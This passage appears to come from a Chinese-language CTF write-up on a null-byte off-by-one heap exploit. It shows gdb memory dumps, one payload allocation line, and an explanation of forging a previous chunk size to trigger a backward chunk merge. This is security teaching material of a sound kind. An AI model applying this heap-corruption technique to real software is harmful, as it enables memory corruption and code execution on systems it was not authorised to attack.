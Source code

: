 ```
0x55ca73bf0590:	0x4141414141414141	0x4141414141414141
0x55ca73bf05a0:	0x4141414141414141	0x4141414141414141
0x55ca73bf05b0:	0x0000000000000000	0x0000000000000041
0x55ca73bf05c0:	0x4141414141414141	0x4141414141414141
0x55ca73bf05d0:	0x4141414141414141	0x4141414141414141
0x55ca73bf05e0:	0x4141414141414141	0x4141414141414141
0x55ca73bf05f0:	0x0000000000000000	0x0000000000020a11
0x55ca73bf0600:	0x0000000000000000	0x0000000000000000
```
### 第二个堆块情况分析点
这里主要是伪造一个上一个堆块(空闲块)大小，并且利用null byte off by one这个漏洞来把101--->100假装前面180个块都是空闲的，并且前面刚好分配的两个块加起来大小为0x180，再在后面free掉堆3的话就会去该堆块上面0x180的位置去检查该堆块是否空闲，如果空闲则将其合并。

```
alloc(0x78,'B' * 0x60 + p64(0) + p64(0x110) + p64(0x180)) #1
```
```
gdb-peda$ x /100xg 0x55ca73bf02f0
0x55ca73bf02f0:	0x0000000000000000	0x0000000000000041
0x55ca73bf0300:	0x4141414141414141	0x4141414141414141
0x55ca73bf0310:	0x4141414141414141	0x4141414141414141
0x55ca73bf0320:	0x4141414141414141	0x4141414141414141
0x55ca73bf0330:	0x0000000000000000	0x0000000000000101
0x55ca73bf0340:	0x00007fc5e3f247b8	0x00007fc5e3f247b8
0x55ca73bf0350:	0x4141414141414141	0x4141414141414141
0x55ca73bf0360:	0x4141414141414141	0x4141414141414141
0x55ca73bf0370:	0x4141414141414141	0x4141414141414141
0x55ca73bf0380:	0x4141414141414141	0x4141414141414141
0x55ca73bf0390:	0x4141414141414141	0x4141414141414141
0x55ca73bf03a0:	0x4141414141414141	0x4141414141414141
0x55ca73bf03b0:	0x4141414141414141	0x4141414141414141
0x55ca73bf03c0:	0x4141414141414141	0x4141414141414141
0x55ca73bf03d0:	0x4141414141414141	0x4141414141414141
0x55ca73bf03e0:	0x4141414141414141	0x4141414141414141
0x55ca73bf03f0:	0x4141414141414141	0x4141414141414141
0x55ca73bf0400:	0x4141414141414141	0x4141414141414141
0x55ca73bf0410:	0x4141414141414141	0x4141414141414141
0x55ca73bf0420:	0x4141414141414141	0x4141414141414141
0x55ca73bf0430:	0x0000000000000100	0x0000000000000080
0x55ca73bf0440:	0x4242424242424242	0x4242424242424242
0x55ca73bf0450:	0x4242424242424242	0x4242424242424242
0x55ca73bf0460:	0x4242424242424242	0x4242424242424242
0x55ca73bf0470:	0x4242424242424242	0x4242424242424242
0x55ca73bf0480:	0x4242424242424242	0x4242424242424242
0x55ca73bf0490:	0x4242424242424242	0x4242424242424242
0x55ca73bf04a0:	0x0000000000000000	0x0000000000000110
0x55ca73bf04b0:	0x0000000000000180	0x0000000000000100
0x55ca73bf04c0:	0x4141414141414141	0x4141414141414141
0x55ca73bf04d0:	0x4141414141414141	0x4141414141414141
0x55ca73bf04e0:	0x4141414141414141	0x4141414141414141
0x55ca73bf04f0:	0x4141414141414141	0x4141414141414141
0x55ca73bf0500:	0x4141414141414141	0x4141414141414141
0x55ca73bf0510:	0x4141414141414141	0x4141414141414141
0x55ca73bf0520:	0x4141414141414141	0x4141414141414141
0x55ca73bf0530:	0x4141414141414141	0x4141414141414141
0x55ca73bf0540:	0x4141414141414141	0x4141414141414141
0x55ca73bf0550:	0x4141414141414141	0x4141414141414141
0x55ca73bf0560:	0x4141414141414141	0x4141414141414141
0x55ca73bf0570:	0x4141414141414141	0x4141414141414141
0x55ca73bf0580:	0x4141414141414141	0x4141414141414141
0x55ca73bf0590:	0x4141414141414141	0x4141414141414141
0x55ca73bf05a0:	0x4141414141414141	0x4141414141414141
0x55ca73bf05b0:	0x0000000000000000	0x0000000000000041
```